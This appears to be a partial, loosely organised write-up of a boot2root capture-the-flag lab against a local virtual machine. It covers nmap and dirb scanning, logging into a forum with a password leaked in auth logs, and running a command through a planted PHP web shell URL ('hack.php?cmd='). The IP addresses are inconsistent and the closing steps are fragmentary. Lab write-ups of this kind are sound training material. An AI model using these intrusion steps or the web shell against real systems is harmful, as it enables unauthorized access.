 1. in virtual box go to the setting of machine we use for boot2root project, go to network section, use the adapter "Host-only Adapter",
    use the default name "vboxnet0".
2. so now we can use ifconfig to have more infos on our ips
    with command ifconfig, we have:
    vboxnet0: flags=8943<UP,BROADCAST,RUNNING,PROMISC,SIMPLEX,MULTICAST> mtu 1500
	ether 0a:00:27:00:00:00
	inet 192.168.99.1 netmask 0xffffff00 broadcast 192.168.99.255
    we know all the vm with adapter vboxnet0, their ips are between 192.168.99.0-255
3. brew install nmap
   use nmap to scan all the ips in that range:
   nmap  192.168.99.0-255
   we have:
   Nmap scan report for 192.168.99.100
   Host is up (0.10s latency).
   Not shown: 994 closed tcp ports (conn-refused)
   PORT    STATE SERVICE
   21/tcp  open  ftp
   22/tcp  open  ssh
   80/tcp  open  http
   143/tcp open  imap
   443/tcp open  https
   993/tcp open  imaps
   so that we know the ip of the machine is 192.168.99.100
4. use another tool called dirp to scan (DIRB is a Web Content Scanner. It looks for existing (and/or hidden) Web Objects.)
   use following steps to have dirp in our host machine:
   cd ~/Applications
   wget https://downloads.sourceforge.net/project/dirb/dirb/2.22/dirb222.tar.gz
   tar -xvf dirb222.tar.gz
   rm dirb222.tar.gz
   brew install autoconf
   chmod -R 755 dirb222
   cd dirb222
   ./configure
   make
   make install
   add the path to the binary:
   export PATH=$PATH:{binary path}

   ```shell
   lists/common.txt

   -----------------
   DIRB v2.22
   By The Dark Raver
   -----------------

   START_TIME: Mon Oct 25 20:20:54 2021
   URL_BASE: http://192.168.56.101/
   WORDLIST_FILES: wordlists/common.txt

   -----------------

   GENERATED WORDS: 4612

   ---- Scanning URL: https://192.168.56.101/ ----
   + https://192.168.56.101/cgi-bin/ (CODE:403|SIZE:291)
   ==> DIRECTORY: https://192.168.56.101/forum/
   ==> DIRECTORY: https://192.168.56.101/phpmyadmin/
   + https://192.168.56.101/server-status (CODE:403|SIZE:296)
   ==> DIRECTORY: https://192.168.56.101/webmail/
   ```
      the result shows that there are directories on the server named forum phpmyadmin and webmail
   so let's try https://192.168.56.101/forum
   when we click on the left side "problem login?", we are directed to another page who has lots logs of user lmezard
   and there is something interesting:
   Oct 5 08:45:29 BornToSecHackMe sshd[7547]: Failed password for invalid user !q\]Ej?*5K5cy*AJ from 161.202.39.38 port 57764 ssh2
   Oct 5 08:45:29 BornToSecHackMe sshd[7547]: Received disconnect from 161.202.39.38: 3: com.jcraft.jsch.JSchException: Auth fail [preauth]
   Oct 5 08:46:01 BornToSecHackMe CRON[7549]: pam_unix(cron:session): session opened for user lmezard by (uid=1040)
   ok, we have the user name, and "!q\]Ej?*5K5cy*AJ" looks like a password, maybe have a try?
   click in login, and username lmezard and !q\]Ej?*5K5cy*AJ for password ------ wtf, we logged in !
   now click onnthe right side on his name, we are in the edit profile page , and we have :
   E-mail:	laurie@borntosec.net
   we got his email address

https://192.168.99.100/forum/templates_c/hack.php?cmd=ls%20/
    file fun to see what is this file
    fun: POSIX tar archive (GNU)

 tar xvf fun

